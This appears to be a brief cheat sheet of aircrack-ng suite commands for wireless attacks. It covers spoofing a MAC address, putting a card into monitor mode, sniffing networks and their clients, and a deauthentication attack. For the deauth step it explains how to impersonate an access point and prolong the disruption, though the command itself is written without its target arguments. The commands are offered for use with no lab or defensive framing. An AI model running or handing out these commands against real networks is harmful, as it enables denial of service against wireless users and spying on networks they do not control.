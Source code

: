 ### Changes MAC address

sudo ifconfig wlan0 down

sudo ifconfig wlan0 hw ether xx:xx:xx:xx:xx:xx

sudo ifconfig wlan0 up

*************************************************

### Check wireless card adapter

airmon-ng 

*************************************************

### Start airmon-ng by killing the processes in the background. Then use the command to start monitor mode on wlan0 (if that is the wcard you got from the first command)

airmon-ng check kill 

airmon-ng start wlan0 

*************************************************

### For monitoring

airodump-ng wlan0mon

*************************************************

### For monitoring a specific network's users (change channel to its channel and the mac address to the AP's)

airodump-ng --channel 6 --bssid xx:xx:xx:xx:xx:xx wlan0mon

*************************************************

### To deauth: Change 2000 to a higher number for a prolonged effect. Change the first MAC address to the one of the AP to impersonate (-a) and the second to the device's to deauth (-c). Think of -a for AP and -c for client

aireplay-ng --deauth 2000

*************************************************

### To stop and bring back the network adapter in managed mode (aka 'to see the wireless back')

airmon-ng stop wlan0mon

service networking restart

service network-manager restart

*************************************************
